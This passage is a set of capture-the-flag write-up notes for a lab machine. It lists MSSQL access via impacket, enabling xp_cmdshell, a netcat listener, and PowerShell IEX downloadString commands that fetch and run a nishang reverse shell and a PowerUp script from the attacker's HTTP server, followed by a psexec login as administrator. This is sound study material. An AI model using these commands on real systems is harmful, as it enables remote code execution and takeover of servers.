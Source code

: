 
### b. Mode of Attack
***msqlclient***
> - `impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth`
> - `enable_xp_cmdshell`
> - `xp_cmdshell whoami`
> > - ![[Pasted image 20221125230704.png]]
> 
> - `nc -lvnp 7799`
> - `python -m http.server`
> - `SQL> xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.13:8000/nishang.ps1\")`
> > - ![[Pasted image 20221125232143.png]]
> 
> - User.txt
> > - ![[Pasted image 20221125232653.png]]


---
---
---

## Priv_Esc

### a. Attack Vector
***PowerUp***
> - `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13:8000/priv.ps1')`
> > - ![[Pasted image 20221125233945.png]]
> > - ![[Pasted image 20221125234027.png]]

---
---

### b. Mode of Attack
***psexe***
> - `impacket-psexec administrator@10.10.10.125`
> > - ![[Pasted image 20221125234650.png]]
